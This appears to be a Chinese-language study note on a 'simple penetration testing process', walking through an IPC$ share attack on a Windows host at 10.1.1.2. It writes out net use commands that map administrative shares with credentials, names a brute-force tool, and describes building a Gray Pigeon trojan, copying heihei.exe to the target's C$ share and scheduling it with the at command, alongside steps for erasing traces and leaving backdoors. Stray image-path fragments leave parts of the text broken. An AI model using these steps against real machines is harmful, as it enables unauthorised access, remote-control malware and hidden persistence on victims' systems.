

# 简单渗透测试流程

### 0. 授权

### 1. 信息收集

- nslookup
- whois

### 2. 扫描漏洞

- nmap=ip范围 端口 80（IIS，apache，发布了什么网站）
- scanport
- 高级扫描：如IIS漏洞 win2003-IIS6.0 win2008-IIS7.0 扫描网站漏洞（）

### 3. 漏洞利用

### 4. 提权

- shell环境
- 桌面环境
- 最高权限

### 5. 毁尸灭迹

### 6. 留后门

### 7. 渗透测试报告

手工测试端口号开放：
telnet IP地址 测试端口

### 1. scanport扫描445端口

### 2. 漏洞利用之IPC$：

```bash
net use  \\10.1.1.2\ipc$ 密码 /user:用户   #远程访问10.1.1.2上的ipc$
net use f: \\10.1.1.2\share 密码 /user:用户 #将远程地址10.1.1.2上的share文件夹作为我的f盘
net use f: /del #删除上一条命令中的f盘
net use * /del #删除所有远程映射
net use #查看所有远程映射
net use f: \\10.1.1.2\c$ 密码 /user:用户
```

命令行是一次性的，若想永久：

OSJ4G7O5G271LF%5B5TE.png)





### 3. 进行暴力破解：NTscan


### 4. 制作木马

利用光盘上的灰鸽子软件

### 5. 植入木马（留后门）

copy d:\heihei.exe \\10.1.1.2\c$

### 6. 设置计划任务自动执行木马：

```bash
net time \\10.1.1.2 #查看10.1.1.2的时间
at \\10.1.1.2 11:19 "c:\windows\system32\heihei.exe"  #定时执行heihei.exe程序
```

at命令win10已弃用

### 7.等待肉鸡上线